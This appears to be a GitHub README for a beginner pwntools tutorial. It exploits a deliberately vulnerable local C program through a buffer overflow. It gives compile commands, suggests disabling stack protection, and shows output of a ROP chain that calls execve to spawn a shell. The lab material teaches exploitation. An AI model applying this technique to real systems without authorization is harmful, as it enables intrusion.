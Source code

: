 # pwnlib basics

This should introduce you to the basics of pwnlib. Right now this is just a
simple c program with a buffer overflow vulnerability. It does not currently
work with stack canaries so if it fails try compiling with
`-fno-stack-protector`. The python file, `test.py` uses pwnlib to find gadgets
in the vulnerable binary and then construct them into a stack in order to pop a
shell.

### Install pwntools

```
pip install --upgrade git+https://github.com/Gallopsled/pwntools.git
```
> I like to add `--user`, no need to install as root anyway, just make sure
> `~/.local/bin` is in your path.

### Compile the binary and exploit

```bash
# Compile staticly so that we have more gadgets with a larger program there
# would be enough but this is just an example
gcc main.c -static -o main

# Run the exploit generator and exploit
python test.py
```

You should see this

```log
$ python test.py
[*] '/home/pdxjohnny/Documents/python/pwn/main'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[*] Loaded cached gadgets for './main'
0x0000:         0x4013ce pop rdi; ret
0x0008:         0x4875e8
0x0010:         0x4014e7 pop rsi; ret
0x0018:              0x0
0x0020:         0x433e45 pop rdx; ret
0x0028:              0x0
0x0030:         0x4319e0 execve
0x0038:       'oaaapaaa' <pad>
[+] Starting local process '/home/pdxjohnny/Documents/python/pwn/main': Done
Hello from sh

[*] Process '/home/pdxjohnny/Documents/python/pwn/main' stopped with exit code 0
```
